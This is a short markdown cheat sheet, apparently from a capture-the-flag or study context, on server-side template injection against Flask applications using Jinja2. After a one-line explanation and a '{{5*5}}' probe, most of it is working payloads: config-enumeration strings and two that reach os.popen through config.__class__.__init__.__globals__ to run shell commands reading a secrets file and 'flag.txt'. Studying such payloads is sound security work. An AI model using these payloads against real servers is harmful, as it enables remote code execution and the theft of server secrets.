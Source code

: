 ### Server Side Template Injection

---

Server side template injection is possible when an attacker injects template directive as user input that can execute arbitrary code on the server.
Example of a vulnerability : 

```py
{{5*5}}
```

---

#### Flask payload for Jinja2 : 
#### Config objects

The current configuration object : flask.config

Start with payload : `{{config.items()}}`
Then inject the second payload : `{{config.from_object('os')}}


```py
{{config.__class__.__init__.__globals__['os'].popen('cat flaskr/protected/burdellsecrets.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
```

